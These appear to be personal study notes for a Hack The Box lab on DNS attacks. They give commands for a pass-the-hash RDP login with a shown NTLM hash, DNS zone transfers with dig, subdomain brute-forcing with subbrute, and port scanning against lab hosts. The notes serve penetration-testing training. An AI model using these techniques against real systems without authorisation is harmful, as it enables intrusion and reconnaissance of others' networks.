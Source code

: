 ```shell-session
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

---

# <mark class="hltr-pink">DNS</mark>

## <mark class="hltr-cyan">DNS Zone Transfer</mark>

Remember to add ns1.inlanefreight.htb to the /etc/hosts file

```shell-session
dig AXFR @ns1.inlanefreight.htb inlanefreight.htb
```

```
dig axfr @ns1.inlanefreight.htb helpdesk.inlanefreight.htb
```

## <mark class="hltr-cyan">Subdomain Enumeration</mark>

```shell-session
cd ~/tools/subbrute
echo "ns.inlanefreight.htb" > resolv.txt
python3 subbrute.py inlanefreight.htb -s ./names.txt -r ./resolv.txt
```

## <mark class="hltr-cyan">Lab walkthrough</mark>

```
nmap -p53 10.129.203.6 
```

We can see that TCP port 53 is open

Then we proceed to query the server for records of the inlanefreight.htb domains

```
dig any @10.129.203.6 inlanefreight.htb
```

![[Pasted image 20240930214309.png]]

We should then add <mark class="hltr-green">ns.inlanefreight.htb</mark> to the /etc/hosts file.

We proceed to do a subdomain enumeration using subbrute

```
echo "ns.inlanefreight.htb > resolv.txt"
pytho3 subbrute.py inlanefreight.htb -s names_small.txt -r resolv.txt
```

![[Pasted image 20240930215240.png]]

We can then try to do a zone transfer for the hr.inlanefreight.htb to get more informations (On this lab there are more subdomains like contact.inlanefreight.htb and helpdesk.inlanefreight.htb but zone transfer only works on hr)
